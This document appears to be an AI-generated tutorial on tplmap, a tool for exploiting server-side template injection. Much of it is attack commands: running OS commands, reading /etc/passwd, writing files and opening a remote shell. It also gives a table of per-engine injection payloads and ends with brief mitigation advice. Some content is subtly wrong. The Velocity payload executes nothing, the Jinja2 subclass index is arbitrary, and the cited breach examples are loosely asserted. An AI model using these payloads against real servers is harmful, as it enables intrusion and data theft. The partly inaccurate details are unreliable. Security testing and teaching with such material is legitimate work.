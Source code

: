 ### **TPLMAP: The Ultimate SSTI Exploitation Tool**

**TPLMAP** is an automated penetration testing tool designed to detect and exploit **Server-Side Template Injection (SSTI)** vulnerabilities. It supports multiple template engines (e.g., Jinja2, Twig, ERB, Freemarker) and can escalate attacks to **Remote Code Execution (RCE)** or **file disclosure**.

---

## **Key Features of TPLMAP**

1. **Automatic Engine Detection**
   - Identifies the template engine (e.g., Jinja2, Twig, ERB) by probing responses.
2. **Exploitation**
   - Executes OS commands, reads files, and bypasses sandbox restrictions.
3. **Support for Multiple Engines**
   - Works with **Python (Jinja2, Mako)**, **PHP (Twig, Smarty)**, **Ruby (ERB)**, **Java (Freemarker, Velocity)**, and more.
4. **Interactive Shells**
   - Spawns **OS shells** or **template evaluation shells** post-exploitation.
5. **WAF Evasion**
   - Uses encoding and obfuscation to bypass Web Application Firewalls (WAFs).

---

## **How TPLMAP Works**

### **1. Installation**

```bash
git clone https://github.com/epinna/tplmap.git
cd tplmap
pip install -r requirements.txt
```

### **2. Basic Usage**

```bash
python tplmap.py -u "http://example.com/page?name=test"
```

- **`-u`**: Target URL with a vulnerable parameter (`name=test`).
- TPLMAP auto-detects the engine and tests for SSTI.

### **3. Exploitation Examples**

#### **A. Remote Code Execution (RCE)**

```bash
python tplmap.py -u "http://example.com?input=test" --os-cmd "id"
```

- Runs the `id` command on the server.

#### **B. File Disclosure**

```bash
python tplmap.py -u "http://example.com?input=test" --file-read "/etc/passwd"
```

- Reads `/etc/passwd` from the server.

#### **C. Interactive Shell**

```bash
python tplmap.py -u "http://example.com?input=test" --os-shell
```

- Spawns an **interactive OS shell** (if RCE is possible).

---

## **Supported Template Engines**

| **Engine** | **Language** | **Example Payload**                                                                      |
| ---------- | ------------ | ---------------------------------------------------------------------------------------- |
| Jinja2     | Python       | `{{ ''.__class__.__mro__[1].__subclasses__()[401]('id') }}`                              |
| Twig       | PHP          | `{{ _self.env.registerUndefinedFilterCallback("exec") }}{{ _self.env.getFilter("id") }}` |
| ERB        | Ruby         | `<%= system("id") %>`                                                                    |
| Freemarker | Java         | `<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("id") }`                  |
| Velocity   | Java         | `#set($exec="Runtime.getRuntime().exec('id')")`                                          |

---

## **Advanced TPLMAP Flags**

| **Flag**       | **Purpose**                             | **Example**                             |
| -------------- | --------------------------------------- | --------------------------------------- |
| `--engine`     | Force a specific engine (e.g.,`jinja2`) | `--engine jinja2`                       |
| `--os-cmd`     | Execute an OS command                   | `--os-cmd "whoami"`                     |
| `--file-read`  | Read a file from the server             | `--file-read "/etc/passwd"`             |
| `--file-write` | Upload a file to the server             | `--file-write "local.txt" "remote.txt"` |
| `--eval`       | Evaluate template code                  | `--eval "{{ 7*7 }}"`                    |
| `--tamper`     | Obfuscate payloads to bypass WAFs       | `--tamper "base64encode"`               |

---

## **Step-by-Step Attack Demo**

### **1. Detect SSTI**

```bash
python tplmap.py -u "http://example.com?name=test"
```

- If vulnerable, TPLMAP outputs:
  ```
  [+] Engine: Jinja2
  [+] Injection: {{7*7}} => 49
  ```

### **2. Escalate to RCE**

```bash
python tplmap.py -u "http://example.com?name=test" --os-cmd "id"
```

- Output:
  ```
  uid=1000(www-data) gid=1000(www-data) groups=1000(www-data)
  ```

### **3. Spawn a Shell**

```bash
python tplmap.py -u "http://example.com?name=test" --os-shell
```

- Provides an interactive shell:
  ```
  $ cat /etc/passwd
  root:x:0:0:root:/root:/bin/bash
  ```

---

## **Mitigation Against TPLMAP/SSTI**

1. **Avoid Unsafe Template Rendering**

   ```python
   # UNSAFE (Flask/Jinja2)
   return render_template_string("Hello, " + username)

   # SAFE
   return render_template("index.html", name=username)
   ```

2. **Sandbox Template Engines**
   - Disable dangerous functions (e.g., `os`, `subprocess` in Python).
3. **Input Validation**
   - Reject template syntax (e.g., `{{`, `<%`) in user inputs.
4. **Use WAFs**
   - Deploy **ModSecurity** or **Cloudflare** to block SSTI payloads.

---

## **Real-World SSTI Exploits with TPLMAP**

- **Uber (2016)**: Jinja2 SSTI in internal tools led to RCE.
- **Algolia (2018)**: Twig SSTI in Symfony apps allowed server takeover.

---

### **Conclusion**

- **TPLMAP** automates SSTI detection and exploitation.
- **Critical Impact**: RCE, file access, and server compromise.
- **Always test ethically** with proper authorization.

Need help setting up a lab to practice? Let me know!
